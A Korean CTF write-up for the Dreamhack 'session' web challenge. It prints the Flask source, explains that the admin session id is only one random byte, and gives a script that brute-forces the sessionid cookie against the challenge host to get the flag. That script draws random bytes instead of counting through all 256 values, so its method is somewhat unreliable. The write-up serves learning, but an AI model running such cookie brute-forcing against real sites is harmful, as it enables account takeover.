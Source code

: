 ```yaml
---
layout: single
title: "[Dreamhack] session write-up"
date: 2024-02-03 00:02 +0900
categories: 
    - WEB-write-up
tag: session
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```




## 문제 설명

쿠키와 세션으로 인증 상태를 관리하는 간단한 로그인 서비스입니다.  
admin 계정으로 로그인에 성공하면 플래그를 획득할 수 있습니다.

<br>

## 풀이

접속 정보로 접속하면 아래와 같은 페이지가 나온다. About을 누르게 되니 아래처럼 URL 주소 뒤에 # 문자가  붙어있다.

![image-20240203000558111](/images/2024-02-03-session/image-20240203000558111.png)

<br>

### 소스 코드

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}

session_storage = {
}

@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)

```

<br>

소스 코드를 살펴보면 `users`에 guest, user, admin의 계정이 존재하고, admin의 비밀번호가 flag라는 것을 알 수 있다.

```python
users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}
```

<br>

`/`엔드포인트에선 admin 계정으로 로그인이 되었다면 flag 값을 보여준다.

```python
@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')
```

<br>

`/login` 엔드포인트에서는 username과 password 입력 폼이 존재하고 username과 password가 맞다면 `os.urandom(4).hex()`를 이용해서 session_id 변수에 추가한다. main 함수를 보면 admin의 세션을 `os.urandom(1).hex()`로 생성하고 있는데 딱봐도 예측 가능한 세션인 거 같다. 

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```



<br>
guest 계정으로 로그인한 후 쿠키 값을 살펴보면 다음과 같다. admin 계정은 `os.urandom(1).hex()`를 이용해 세션을 생성하므로 더 간단할 것이다.

![image-20240203040709887](/images/2024-02-03-session/image-20240203040709887.png)



<br>

아래와 같이 코드를 작성하고 실행시켜 보면 admin 계정의 세션이 어떻게 나오는지 알 수 있다.

```python
import os

session_storage = {}

session_storage[os.urandom(1).hex()] = 'admin'

print(session_storage)
```



<br>

아래 실행 결과, admin 계정의 세션은 `hex()`인 16진수로 `os.urandom()` 함수의 인자가 1이므로 1바이트의 16진수인 단 두 자리로 세션이 생성되는 것을 알 수 있다. 

![image-20240203040949974](/images/2024-02-03-session/image-20240203040949974.png)

<br>

### 예상 시나리오

이제 위에서 알 수 있듯이 세션의 이름은 sessionid와 value 값을 1바이트의 16진수의 경우의 수를 전부 넣어 `/` 엔드포인트에서 flag를 확인하면 될 거 같다.



<br>

다음과 같이 코드를 짰다. 기본 세션 변수 생성 로직인 `os.urandom(1).hex()`를 그대로 이용해서 256번 반복해서 admin의 session을 생성하고 r.text의 응답 텍스트 안에 flag 로직인 DH가 포함되어 있다면 본문을 출력하도록 페이로드를 구성했다.

```python
import os
import requests

url = 'http://host3.dreamhack.games:17436/'


for i in range(256):
    admin_session = os.urandom(1).hex()
    print(admin_session)
    cookie = {'sessionid': admin_session}
    r = requests.get(url, cookies=cookie)
    if 'DH' in r.text:
        print(r.text)


```

<br>

코드를 실행하면 다음과 같이 응답 본문에 DH 다음으로 flag가 잘 출력되는 것을 확인할 수 있다.

![image-20240203042923213](/images/2024-02-03-session/image-20240203042923213.png)









